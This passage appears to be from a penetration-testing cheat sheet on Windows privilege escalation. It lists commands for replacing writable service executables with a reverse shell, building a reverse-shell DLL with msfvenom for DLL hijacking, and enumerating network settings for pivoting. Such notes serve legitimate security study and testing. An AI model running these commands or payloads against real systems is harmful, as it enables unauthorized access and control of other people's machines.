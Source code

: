 #### Insecure Service Executables

&gt; If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable

Check for user/group permission on executable file

```powershell
C:\Cas&gt; .\accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

```powershell
C:\Cas&gt; copy /Y shell.exe "C:\Program Files\File Permissions Service\&lt;insecure-service&gt;"
```

#### DLL Hijacking

&gt; Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.
&gt; Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path)

    Find missing Dlls inside system: [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)

```powershell
C:\Cas&gt; msfvenom -p windows/x64/shell_reverse_tcp LHOST=&lt;my-ip&gt; LPORT=80 -f dll -o reverse.dll
```

## Networking Information

&gt; An attacker may use a compromised target to pivot, or move between connected networks. This will amplify network visibility and allow the attacker to target hosts not directly visible from the original attack machine.
&gt; We can also investigate port bindings to see if a running service is only available on a loopback address, rather than on a routable one. Investigating a privileged program or service listening on the loopback interface could expand our attack surface and increase our probability of a privilege escalation attack.

### Full TCP/IP configuration

```powershell
C:\Cas&gt; ipconfig /all
```

### Networking routing tables

```powershell
C:\Cas&gt; route print
```

### Active network connections

```powershell
C:\Cas&gt; netstat -ano
```

